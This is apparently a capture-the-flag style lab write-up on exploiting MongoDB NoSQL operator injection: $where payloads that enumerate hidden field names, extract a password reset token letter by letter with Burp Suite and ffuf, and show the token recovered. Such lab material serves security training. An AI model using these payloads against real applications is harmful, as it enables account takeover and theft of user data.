# Exploiting NoSQL operator injection to extract unknown fields
# Objective
The user lookup functionality for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection.\
\
To solve the lab, log in as `carlos`.

# Solution
## Analysis

||
|:--:| 
| *Malicious payload leads to account lock* |

Using the following payloads it is possible to change application response by changing value after `$where` statement:
```json
{"username":"carlos","password":{"$ne":"invalidpassword"},"$where":"0"}
{"username":"carlos","password":{"$ne":"invalidpassword"},"$where":"1"}
```

||
|:--:| 
||

## Extracting field names
The following payload will allow to retrieve field names letter by letter. When the letter is correct the `where` statement will return `true` - website will return message "Account locked: Please reset your password".
```json
{"username":"carlos","password":{"$ne":"invalidpassword"},"$where":"Object.keys(this)[0].match('^.{§0§}§a§.*')"}
```
### Burp Suite enumeration
||
|:--:| 
| *Payload positions* |
||
| *Payload settings* |
||
| *Payload settings* |
||
| *Results* |

### FFUF enumeration
```
ffuf -request request.txt -mode clusterbomb -w numbers.txt:FUZZNUM -w alphanumeric.txt:FUZZLETTER -fs 3392
```

||
|:--:| 
| Enumeration for 0 - field name `id` |
||
| Enumeration for 1 - field name `username` |
||
| Enumeration for 2 - field name `password`|
||
| Enumeration for 3 - field name `email` |
||
| Enumeration for 4 - field name `pwResetTkn`|

Enumeration for `4` result in internal server errors.

Website `/forgot-password` is used to validate token:
||
|:--:| 
| Token test |

## Password enumeration
### Burp Suite enumeration
The following payload will allow to retrieve carlos's password reset token letter by letter. When the letter in token is correct the `where` statement will return `true` - website will return message "Account locked: Please reset your password":
```json
{"username":"carlos","password":{"$ne":"invalidpassword"},"$where":"this.pwResetTkn.match('^.{§0§}§a§.*')"}
```
||
|:--:| 
| *Payload positions* |
||
|:--:| 
| *Results* |

### FFUF enumeration
```
ffuf -request req.txt -mode clusterbomb -w numbers.txt:FUZZNUM -w alphanumeric.txt:FUZZLETTER -fs 3392
```
Result:
```
[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 220ms]
    * FUZZLETTER: a
    * FUZZNUM: 6

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 53ms]
    * FUZZLETTER: c
    * FUZZNUM: 3

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 55ms]
    * FUZZLETTER: e
    * FUZZNUM: 10

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 58ms]
    * FUZZLETTER: f
    * FUZZNUM: 4

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 81ms]
    * FUZZLETTER: f
    * FUZZNUM: 5

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 54ms]
    * FUZZLETTER: c
    * FUZZNUM: 14

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 271ms]
    * FUZZLETTER: 1
    * FUZZNUM: 11

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 66ms]
    * FUZZLETTER: 2
    * FUZZNUM: 12

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 57ms]
    * FUZZLETTER: 2
    * FUZZNUM: 15

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 62ms]
    * FUZZLETTER: 3
    * FUZZNUM: 0

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 53ms]
    * FUZZLETTER: 5
    * FUZZNUM: 1

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 56ms]
    * FUZZLETTER: 6
    * FUZZNUM: 13

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 77ms]
    * FUZZLETTER: 8
    * FUZZNUM: 8

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 77ms]
    * FUZZLETTER: 8
    * FUZZNUM: 7

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 49ms]
    * FUZZLETTER: 9
    * FUZZNUM: 2

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 500ms]
    * FUZZLETTER: 9
    * FUZZNUM: 9
```
Token for password reset: `359cffa889e126c2`

## Password reset

||
|:--:| 
| *Requesting password reset page* |
||
| *Resetting password* |